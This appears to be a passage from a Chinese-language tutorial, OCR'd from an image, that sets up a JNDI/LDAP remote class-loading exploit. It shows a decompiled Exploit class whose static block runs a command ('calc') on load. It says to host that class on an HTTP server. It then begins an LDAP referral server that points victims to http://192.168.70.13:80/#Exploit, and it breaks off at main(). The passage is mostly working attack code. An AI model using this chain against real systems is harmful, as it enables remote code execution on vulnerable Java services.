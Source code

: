 ### Exploit.class

`javac Exploit.java`

```
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

import java.io.IOException;

public class Exploit {
    public Exploit() {
    }

    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException var1) {
            var1.printStackTrace();
        }

    }
}
```



###  上传到HTTP服务器 

- Apache、Python SimpleHTTPServer都可以 
- phpstudy 
  - Windows 
  - Linux 

## 2、准备LDAP服务器

```
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

public class LDAPRefServer {

    private static final String LDAP_BASE = "dc=example,dc=com";

    /**
     * class地址 用#Exploit代替Exploit.class
     */
    private static final String EXPLOIT_CLASS_URL = "http://192.168.70.13:80/#Exploit";

    public static void main(String[] args) {
```
